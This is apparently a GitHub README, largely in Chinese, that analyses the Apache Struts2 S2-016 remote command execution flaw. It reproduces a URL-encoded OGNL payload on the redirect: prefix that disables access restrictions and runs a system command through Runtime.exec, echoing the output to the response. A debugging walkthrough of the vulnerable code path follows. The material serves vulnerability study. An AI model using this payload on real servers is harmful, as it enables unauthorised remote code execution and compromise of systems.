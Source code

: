 # S2-016 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.15`

Problem: 在struts2中，`DefaultActionMapper`类支持以`action:`、`redirect:`、`redirectAction:`作为导航或是重定向前缀，但是这些前缀后面同时可以跟`OGNL`表达式，由于struts2没有对这些前缀做过滤，导致利用`OGNL`表达式调用java静态方法执行任意系统命令。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709]({D52E437C-44A0-486D-97BE-29F2AFCC8FD4}_20200722102709.jpg)

Payload: 

```java
index.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read%28%23d%29%2C%23genxor%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%2C%23genxor.println%28%23d%29%2C%23genxor.flush%28%29%2C%23genxor.close%28%29%7D
```

## Debug

关注两点，第一是`redirect:<ognl>`是如何被处理的；第二，`payload`是如何被解析的。

在核心过滤器FilterDispatcher类的dofilter()函数下个断点，它负责拦截所有的用户请求。

s2-016/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/FilterDispatcher.class:181

![image-20200723111523847](img/dofilter.png)

doFilter先进行创建值栈、上下文、包装request等一些初始化操作，然后进入getMapping()方法，通过uri解析对应的action配置信息，例如namespace、actionname、method。跟进getMapping()：

![image-20200723111435992](img/getMapping.png)

parseNameAndNamespace()方法根据uri和配置文件中的namespace进行对比来判断namespace。hadleSpecialParameters()方法顾名思义是处理某些特殊参数。跟入hadleSpecialParameters()：

![image-20200723111152848](img/handleSpecialParameters.png)

首先获取到request中所有参数名，遍历看是否有以`.x`和`.y`结尾的参数名，`prefixTrie.get(key)`判断参数名是否都是有效字符。

再跟入`parameterAction.execute()`，可以看到`redirect.setLocation()`方法将`redirect:`后面的内容设置为了`location`。

![image-20200723115019593](img/redirect.png)

到这里第一个问题知道了，就是`redirect:`后面的`ognl`表达式进入了`location`参数。

再看看这个location什么时候被解析。回到doFilter()，继续往下进入serviceAction()：

![image-20200723145024705](img/execute.png)

先获取Configuration对象，通过Configuration得到容器对象，再从容器中获取ActionProxyFactory工厂类创建ActionProxy动态代理。

mapping.getResult()不为null，根据Result配置创建出相应的Result对象，然后执行Result的execute方法。跟入execute()：

```java
    public void execute(ActionInvocation invocation) throws Exception {
        this.lastFinalLocation = this.conditionalParse(this.location, invocation);
        this.doExecute(this.lastFinalLocation, invocation);
    }
```

到了熟悉的地方——conditionalParse()方法，该函数用于处理跳转地址location，会判断location是否有ognl表达式，有的话将会执行表达式。一直跟入translateVariables()，到stack.findValue触发执行ognl表达式。

![image-20200723151111362](img/frame.png)

## Reference

- [S2-016](https://cwiki.apache.org/confluence/display/WW/S2-016)
- [S2-016 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md)

